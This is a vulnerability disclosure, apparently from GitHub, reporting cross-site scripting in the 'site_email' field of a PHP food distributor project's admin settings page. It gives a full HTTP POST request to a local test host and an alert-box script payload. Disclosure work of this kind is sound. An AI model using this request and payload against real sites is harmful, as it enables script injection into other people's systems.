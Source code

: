 Cross-Site Scripting vulnerability in the `site_email` parameter of the Site Settings functionality

```
/fooddis/admin/save_settings.php
```

Vendor Homepage:

```
https://code-projects.org/food-distributor-site-in-php-with-source-code/
```

Version: 

```
V1.0
```

Tested on: 

```
PHP
```

Affected Page:

```
/fooddis/admin/save_settings.php
```

The `site_email` parameter in the `save_settings.php` file of the Code-Projects Food Distributor System is vulnerable to XSS Injection. 

Proof of vulnerability:

<img width="927" alt="image" src="https://github.com/user-attachments/assets/e9adda01-77ea-4817-83e3-bc154775821c" />

<img width="1117" alt="image" src="https://github.com/user-attachments/assets/a71cd213-9cb7-4dbf-bca5-0477d8bf81cc" />





Request:

```
POST /fooddis/admin/save_settings.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 1783
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryErLqPQriiA6D3gDj
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/fooddis/admin/site_settings.php?success=true
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=b409c2d300348e8d3c7d564868ff9e2f
Connection: keep-alive

------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="site_name"

Food Website
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="site_title"

Food Website
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="site_keyword"

Site
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="site_desc"

Food Website, established in 2018, is a well known ethic food distributor in Nigeria. With previous experience in food technology and research, Lumidek Associates Ltd. is the market leader in serving high quality and health promoting food products across Nigeria.
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="google_code"

09tghjpo987hpnjkb
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="site_email"

<script>alert('XSS')</script>
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="site_phone"

123456789
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="linkedin"

(+234)000 000 1353
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="facebook"

https://facebook.com
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="twitter"

CP
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="address"

142, Iju waterworks road, Agege, Lagos state.
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="city"

Eliozu road, off Airport road, Port Harcourt, Rivers state
------WebKitFormBoundaryErLqPQriiA6D3gDj
Content-Disposition: form-data; name="country"

Nigeria
------WebKitFormBoundaryErLqPQriiA6D3gDj--
```

payload

```
<script>alert('XSS')</script>
```

